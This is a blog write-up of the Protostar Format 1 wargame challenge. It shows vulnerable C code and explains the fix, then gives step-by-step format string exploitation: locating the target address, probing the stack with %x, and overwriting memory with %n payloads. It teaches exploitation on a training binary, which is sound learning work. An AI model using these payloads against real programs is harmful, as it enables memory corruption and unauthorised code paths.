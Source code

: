 ```yaml
---
title: "Exploit Exercises - Protostar Format 1"
date: "2012-01-30T18:12:00-05:00"
comments: true
highlight: "true"
categories:
 - formatstring
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - hacking
aliases:
 - "/2011/12/exploit-exercises-protostar-format-1.html"
 - "/01/30/exploit-exercises-protostar-format-1/"
---
```


Following the Format 0 challenge, I've had to do a bunch of reading on how format string exploits work on a very low level. 

Some resources that I've found greatly useful: 

* [Hacking: The Art of Exploitation, 2nd Edition](http://www.amazon.com/gp/product/1593271441/ref=as_li_ss_tl?ie=UTF8&tag=mattandcom-20&linkCode=as2&camp=1789&creative=390957&creativeASIN=1593271441)<img src="http://www.assoc-amazon.com/e/ir?t=mattandcom-20&l=as2&o=1&a=1593271441" width="1" height="1" border="0" alt="" style="border:none !important; margin:0px !important;" />
* [Exploiting Format String Vulnerabilities](http://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf)
* [SecurityTube.net Format String Vulnerabilities Megaprimer](http://www.securitytube.net/groups?operation=view&groupId=3)

With this challenge, we're given some c code in which we are to find the vulnerability.

<!-- more -->

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln(char *string)
{
 printf(string);

 if(target) {
  printf("you have modified the target :)\n");
 }
}

int main(int argc, char **argv)
{
 vuln(argv[1]);
}
```

If you notice, there is a string format vulnerability inside the "vuln" function.  It is doing a "printf" of a string directly provided by the user.  To prevent this vulnerability, this line should read: 

```
printf("%s", string);
```

The first step of exploiting this vulnerability, would be to find the address of "target", so that we can modify it. 

```
user@protostar:/opt/protostar/bin$ objdump -t format1 | grep target
08049638 g     O .bss   00000004              target
```

The next step, is to find the direct reference in the stack to the command argument we enter.  To do this, we can simply spam "%x", since that pops the next word off of the stack.  If we do it multiple times, eventually we'll get to where the argument is located.  I chose to do it 150 times, guessing it would be less than that. 

```
user@protostar:/opt/protostar/bin$ ./format1 AAAAAAAA`perl -e 'print "%x."x150'`
AAAAAAAA804960c.bffff628.8048469.b7fd8304.b7fd7ff4.bffff628.8048435.bffff7f0.b7ff1040.804845b.b7fd7ff4.8048450.0.bffff6a8.b7eadc76.2.bffff6d4.bffff6e0.b7fe1848.bffff690.ffffffff.b7ffeff4.804824d.1.bffff690.b7ff0626.b7fffab0.b7fe1b28.b7fd7ff4.0.0.bffff6a8.8570f76f.af24e17f.0.0.0.2.8048340.0.b7ff6210.b7eadb9b.b7ffeff4.2.8048340.0.8048361.804841c.2.bffff6d4.8048450.8048440.b7ff1040.bffff6cc.b7fff8f8.2.bffff7e6.bffff7f0.0.bffff9bb.bffff9c6.bffff9d6.bffff9f6.bffffa09.bffffa13.bfffff03.bfffff17.bfffff55.bfffff6c.bfffff7d.bfffff85.bfffff95.bfffffa2.bfffffd4.bfffffe0.0.20.b7fe2414.21.b7fe2000.10.febfbff.6.1000.11.64.3.8048034.4.20.5.7.7.b7fe3000.8.0.9.8048340.b.3e9.c.0.d.3e9.e.3e9.17.1.19.bffff7cb.1f.bffffff2.f.bffff7db.0.0.0.cf000000.4b112951.96083d4e.8dce3d07.69b25f71.363836.0.2f2e0000.6d726f66.317461.41414141.41414141.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.
```

If you look at that output, you'll see each byte in the stack, separated by periods.  Eventually, you should see "41414141", since the 150 number was enough.  This points to the "AAAAAAAA" we entered at the beginning of the argument.  I often find it easy to do 8 "A"s instead of 4, in case the byte is split up, and not aligned properly, giving something like "41411234.5678414141". 

Counting in, it looks like it was 128 bytes into the stack to get to.  Just to verify, let's try a little more precisely: 

```
user@protostar:/opt/protostar/bin$ ./format1 AAAA`perl -e 'print "%x."x128'`%x
AAAA804960c.bffff668.8048469.b7fd8304.b7fd7ff4.bffff668.8048435.bffff834.b7ff1040.804845b.b7fd7ff4.8048450.0.bffff6e8.b7eadc76.2.bffff714.bffff720.b7fe1848.bffff6d0.ffffffff.b7ffeff4.804824d.1.bffff6d0.b7ff0626.b7fffab0.b7fe1b28.b7fd7ff4.0.0.bffff6e8.77ba880e.5dee1e1e.0.0.0.2.8048340.0.b7ff6210.b7eadb9b.b7ffeff4.2.8048340.0.8048361.804841c.2.bffff714.8048450.8048440.b7ff1040.bffff70c.b7fff8f8.2.bffff82a.bffff834.0.bffff9bb.bffff9c6.bffff9d6.bffff9f6.bffffa09.bffffa13.bfffff03.bfffff17.bfffff55.bfffff6c.bfffff7d.bfffff85.bfffff95.bfffffa2.bfffffd4.bfffffe0.0.20.b7fe2414.21.b7fe2000.10.febfbff.6.1000.11.64.3.8048034.4.20.5.7.7.b7fe3000.8.0.9.8048340.b.3e9.c.0.d.3e9.e.3e9.17.1.19.bffff80b.1f.bffffff2.f.bffff81b.0.0.0.3b000000.34e9adc8.e1b8c42b.3212319e.690884e6.363836.0.0.2f2e0000.6d726f66.317461.41414141
```

That verifies that no additional padding needs to be done, the last word is reading perfectly. 

Next, instead of passing "AAAA" (or 0x41414141) as the address, we'll try using the address of "target": 

```
user@protostar:/opt/protostar/bin$ ./format1 `perl -e 'print "\x38\x96\x04\x08" . "%x."x128'`%x
8804960c.bffff668.8048469.b7fd8304.b7fd7ff4.bffff668.8048435.bffff834.b7ff1040.804845b.b7fd7ff4.8048450.0.bffff6e8.b7eadc76.2.bffff714.bffff720.b7fe1848.bffff6d0.ffffffff.b7ffeff4.804824d.1.bffff6d0.b7ff0626.b7fffab0.b7fe1b28.b7fd7ff4.0.0.bffff6e8.b623f0ae.9c7766be.0.0.0.2.8048340.0.b7ff6210.b7eadb9b.b7ffeff4.2.8048340.0.8048361.804841c.2.bffff714.8048450.8048440.b7ff1040.bffff70c.b7fff8f8.2.bffff82a.bffff834.0.bffff9bb.bffff9c6.bffff9d6.bffff9f6.bffffa09.bffffa13.bfffff03.bfffff17.bfffff55.bfffff6c.bfffff7d.bfffff85.bfffff95.bfffffa2.bfffffd4.bfffffe0.0.20.b7fe2414.21.b7fe2000.10.febfbff.6.1000.11.64.3.8048034.4.20.5.7.7.b7fe3000.8.0.9.8048340.b.3e9.c.0.d.3e9.e.3e9.17.1.19.bffff80b.1f.bffffff2.f.bffff81b.0.0.0.98000000.88091ce4.7be8a4e7.30f01468.69a9fa50.363836.0.0.2f2e0000.6d726f66.317461.8049638
```

Note that the initial 0 is missing, but that's ok.  It seems that worked as well, so let's tell it to overwrite the memory address instead of just printing it to the screen: 

```
user@protostar:/opt/protostar/bin$ ./format1 `perl -e 'print "\x38\x96\x04\x08" . "%x."x128'`%n
8804960c.bffff668.8048469.b7fd8304.b7fd7ff4.bffff668.8048435.bffff834.b7ff1040.804845b.b7fd7ff4.8048450.0.bffff6e8.b7eadc76.2.bffff714.bffff720.b7fe1848.bffff6d0.ffffffff.b7ffeff4.804824d.1.bffff6d0.b7ff0626.b7fffab0.b7fe1b28.b7fd7ff4.0.0.bffff6e8.a61b35ff.8c4fa3ef.0.0.0.2.8048340.0.b7ff6210.b7eadb9b.b7ffeff4.2.8048340.0.8048361.804841c.2.bffff714.8048450.8048440.b7ff1040.bffff70c.b7fff8f8.2.bffff82a.bffff834.0.bffff9bb.bffff9c6.bffff9d6.bffff9f6.bffffa09.bffffa13.bfffff03.bfffff17.bfffff55.bfffff6c.bfffff7d.bfffff85.bfffff95.bfffffa2.bfffffd4.bfffffe0.0.20.b7fe2414.21.b7fe2000.10.febfbff.6.1000.11.64.3.8048034.4.20.5.7.7.b7fe3000.8.0.9.8048340.b.3e9.c.0.d.3e9.e.3e9.17.1.19.bffff80b.1f.bffffff2.f.bffff81b.0.0.0.48000000.eacde3e8.ce402cfb.689377d6.699e12c7.363836.0.0.2f2e0000.6d726f66.317461.you have modified the target :)
```

There you have it.  We modified the value, which made the application output "you have modified the target :)" 

As a bonus solution, I found you can also use Direct Parameter Access, and solve it with a lot less junk on the screen: 

```
user@protostar:/opt/protostar/bin$ ./format1 `perl -e 'print "\x38\x96\x04\x08"'`%128\$n
8you have modified the target :)
```
